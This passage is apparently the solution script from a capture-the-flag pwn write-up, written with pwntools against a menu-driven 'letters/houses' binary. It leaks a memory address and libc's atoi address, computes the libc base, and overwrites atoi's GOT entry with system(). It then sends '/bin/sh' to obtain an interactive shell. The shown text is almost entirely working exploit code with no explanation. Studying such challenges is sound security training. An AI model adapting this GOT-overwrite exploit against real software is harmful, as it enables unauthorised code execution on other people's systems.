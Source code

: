def leaveLetter(index, content):
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b'Index:', str(index).encode())
    p.sendline(content)
    p.recvline()

def leave():
    p.sendlineafter(b'>', b'3')
    
leaveLetter(0, b'a'*4)
leak = p.recvline()

letters_addr = int(leak[17:29], 16)
log.info("letters address: " + hex(letters_addr))
atoi_got_addr = letters_addr - 48
log.info("atoi got address: " + hex(atoi_got_addr))
leaveLetter(4, p64(letters_addr + 5*0x8))
log.info('set houses[0] to point to houses[1]')

leaveLetter(6, p64(atoi_got_addr))
log.info('set houses[2] to point to atoi GOT to leak libc atoi')
viewHouse(0)
libc_atoi = p.recvline()[1:7]
libc_atoi_addr = u64(libc_atoi+b'\x00\x00')
libc_base = libc_atoi_addr - libc.sym['atoi']
libc_system = libc_base + libc.sym['system']
log.info("libc base: " + hex(libc_base))

index = int((atoi_got_addr - letters_addr)/8)
leaveLetter(index, p64(libc_system)) # overwrite atoi() with system()
p.sendlineafter(b'>', b'/bin/sh')

p.interactive()
{% endccb %}